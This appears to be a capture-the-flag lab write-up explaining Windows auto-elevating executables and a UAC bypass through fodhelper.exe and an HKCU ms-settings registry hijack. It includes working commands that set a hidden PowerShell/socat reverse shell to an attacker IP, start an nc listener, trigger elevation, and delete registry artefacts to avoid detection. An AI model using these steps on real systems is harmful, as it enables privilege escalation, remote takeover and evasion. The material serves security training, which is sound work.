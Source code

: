 # Auto-Elevating Processes and UAC Bypass

## AutoElevate

Some Windows executables can auto-elevate, achieving high Integrity Level (IL) without user intervention. This applies to most Control Panel functions and certain Windows executables.

### Requirements for Auto-Elevation

- The executable must be signed by the Windows Publisher.
- It must reside in a trusted directory (e.g., `%SystemRoot%\System32\` or `%ProgramFiles%`).
- Executable files (`.exe`) must declare the `autoElevate` element in their manifest.

To check a file's manifest, use [Sysinternals sigcheck](https://docs.microsoft.com/en-us/sysinternals/downloads/sigcheck):

```shell
C:\tools\> sigcheck64.exe -m c:\windows\system32\msconfig.exe
...
<asmv3:application>
    <asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
        <dpiAware>true</dpiAware>
        <autoElevate>true</autoElevate>
    </asmv3:windowsSettings>
</asmv3:application>
```

- `mmc.exe` auto-elevates depending on the `.msc` snap-in.
- Windows maintains a list of executables that auto-elevate even without the manifest (e.g., `pkgmgr.exe`, `spinstall.exe`).
- COM objects can request auto-elevation via registry keys ([docs](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)).

---

## Case Study: `fodhelper.exe`

`fodhelper.exe` manages Windows optional features and can auto-elevate with default UAC settings. Unlike `msconfig.exe`, `fodhelper.exe` can be abused without GUI access.

### Attack Overview

- Attackers can use `fodhelper.exe` from a medium integrity shell to spawn a high integrity process.
- Discovered by @winscripting and used by Glupteba malware.

#### How It Works

- Windows uses the registry to determine which application opens a file, using the Programmatic ID (ProgID).
- `HKEY_CLASSES_ROOT` is a merged view of:
    - `HKEY_LOCAL_MACHINE\Software\Classes` (system-wide)
    - `HKEY_CURRENT_USER\Software\Classes` (user-specific, takes priority)
- By creating a user-specific association for the `ms-settings` ProgID, attackers control the command executed by `fodhelper.exe`.
- Since `fodhelper.exe` auto-elevates, any subprocess inherits a high integrity token, bypassing UAC.

---

## Practical Example: Bypassing UAC with `fodhelper.exe`

Suppose you have a backdoor shell on a target (member of Administrators, but with medium integrity):

```shell
user@kali$ nc MACHINE_IP 9999
Microsoft Windows [Version ...]
C:\Windows\system32>whoami
myserver\attacker

C:\Windows\system32>net user attacker | find "Local Group"
Local Group Memberships      *Administrators       *Users

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
```

### Registry Setup

Set registry values to associate `ms-settings` with a reverse shell:

```shell
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
C:\> reg add %REG_KEY% /d %CMD% /f
```

> **Note:** The empty `DelegateExecute` value is required for the exploit.

### Listener Setup

On your machine:

```shell
nc -lvp 4444
```

### Trigger the Exploit

On the target:

```shell
C:\> fodhelper.exe
```

You should receive a high integrity shell:

```shell
user@kali$ nc -lvp 4444
...
C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

---

## Retrieving the Flag

From the high integrity shell:

```shell
C:\> C:\flags\GetFlag-fodhelper.exe
```

> **Note:** The flag is only available if UAC was bypassed via `fodhelper.exe` and from a high integrity shell.

---

## Cleanup

Remove registry artefacts to avoid detection:

```shell
reg delete HKCU\Software\Classes\ms-settings\ /f
```

> **Note:** Always clean up after exploitation to prevent interference with future tasks.
